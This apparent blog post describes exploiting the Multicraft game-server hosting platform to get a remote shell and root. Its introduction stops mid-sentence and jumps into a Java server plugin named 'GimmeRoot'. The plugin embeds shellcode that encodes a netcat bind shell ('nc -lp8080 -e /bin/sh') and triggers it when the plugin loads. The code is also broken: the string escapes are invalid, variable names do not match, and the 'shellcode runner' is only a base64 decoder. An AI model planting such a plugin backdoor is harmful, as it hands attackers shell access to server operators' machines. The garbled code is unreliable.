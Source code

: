 ```yaml
---
title: "Exploiting vulnerable software and privelage escalation, with some bonus arbitrary code execution :)"
layout: post
date: 2017-06-16 07:47
image: /assets/images/multicraft.png
headerImage: true
tag:
- exploit
- security
- project
- tech
- linux
- java
- shellcode
- netcat
- 0day
- open source
- rootkit
category: blog
author: samlim
description: An old project that may pique the interest for those of you interested in exploitation, cybersecurity, and Linux
---
```


## Introduction
Hello everybody!

Back in my school days when I was a wee lad (8th grade or so), I began to foster a passion for cybersecurity. Back then I also adored the then-indie game [Minecraft](https://minecraft.net/en-us/). Since I played that game it has since then been purchased by Microsoft, and man did that game go downhill. Please do excuse my harsh critique, maybe it's just the nostalgia I miss :-)

I spent more time with that game than I care to admit. However towards the end of my virtual endeavors as miner, I began to become more and more interested in the _server hosting_ and plugin development aspects of the game. What followed were several of my attempts at starting my own personal server and writing my own plugins: I lasted sveral months, in which I made several thousand dollars worth of donations from my players and learned a bit of Java. All from a video game!

_Not too important right now, but the volatility of these types of game servers and the potential revenue achievable will make more sense later as I explain why exactly "hacking" (ethical or not) is so appealing_

But what had really kindled my interest in this type of computer/network work was server management (in particular Linux and Unix systems), and along with that, exploitation. After some lengthy time familiarizing myself with commonly-used Unix environments and how exactly one goes about exploiting the various pieces of software being run on that machine, my prior experience with Minecraft hosting, server management, and Linux led me to quite the discovery: an exploit that would adventually lead to [_remote shell_](http://resources.infosecinstitute.com/icmp-reverse-shell/) access, [_arbitrary code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution), and eventual [_privelage escalation_](https://en.wikipedia.org/wiki/Privilege_escalation) by taking advantage of any machines running the widely-used commercial hosting platform known as [Multicraft](https://www.multicraft.org/).

## The Peculiar Case of Multicraft - Her Achille's Heel
First of all, we need to define what exactly the infamous "root" terminology means. Some may have heard it as a verb:
> Example:
> * "Jane roots many servers"
> * "Dick is rooting the machine right now"

In most Linux distros/flavors the hierarchy of users and user privelages 

    package com.shellcodefun;

        import java.io.File;
        import java.io.FileOutputStream;
        import org.bukkit.plugin.java.JavaPlugin;

        public final class GimmeRoot extends JavaPlugin {
        /*
         * ##
         * # Old semi-updated version
         * ##
         * [REDACTED] Shell - [Redacted], s.lim
         * a [REDACTED] project
         */

        public String payload = "\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e
                                \x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80
                                \xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d
                                \x65\x2f\x62\x69\x6e\x2f\x73\x68\x23";

        public static void execute(String x) {
            System.out.println("[LOCAL ROOT 0DAY] " + x);
        }

        public void onEnable(){
            try {
                Runtime friend = Runtime.getRuntime();
                execute("here we go");
                execute("listening on port 8080");
                byte[] y = run_shellcode(payload);
                execute("Decrypted payload");
                execute("Saved payload as " + ma_homie);
                execute("bl1NG Bl1ing, to reinitialize shell use the bukkit 'reload' command");

            }
            catch(Exception e) {
                System.out.println("uh oh, error baby: " + e.toString());
            }

        }

        @Override
        public void onDisable() {
        }

        private final static char[] char_map = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
                .toCharArray();

        private static int[] java_sucks = new int[128];

        static {
            for (int i = 0; i < char_map.length; i++) {
                java_sucks[char_map[i]] = i;
            }
        }
        public static byte[] run_shellcode(String da_shell_code) {
            int sanitize_mah_hax = da_shellcode.endsWith("==") ? 2 : da_shellcode.endsWith("=") ? 1 : 0;
            byte[] the_shiznit = new byte[da_shellcode.length() * 3 / 4 - sanitize_mah_hax];
            int sinker = 0xFF;
            int root_time = 0;
            for (int i = 0; i < da_shellcode.length(); i += 4) {
                int c0 = java_sucks[da_shellcode.charAt(i)];
                int c1 = java_sucks[da_shellcode.charAt(i + 1)];
                the_shiznit[root_time++] = (byte) (((c0 << 2) | (c1 >> 4)) & sinker);
                if (root_time >= the_shiznit.length) {
                    return the_shiznit;
                }
                int c2 = java_sucks[da_shellcode.charAt(i + 2)];
                the_shiznit[root_time++] = (byte) (((c1 << 4) | (c2 >> 2)) & sinker);
                if (root_time >= the_shiznit.length) {
                    return the_shiznit;
                }
                int c3 = java_sucks[da_shellcode.charAt(i + 3)];
                the_shiznit[root_time++] = (byte) (((c2 << 6) | c3) & sinker);
            }
            return the_shiznit;
        }
    }

## Further Reading
* [Reverse Shell Connection with Netcat](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)

* [What is a 'Rootkit?'](https://en.wikipedia.org/wiki/Rootkit)
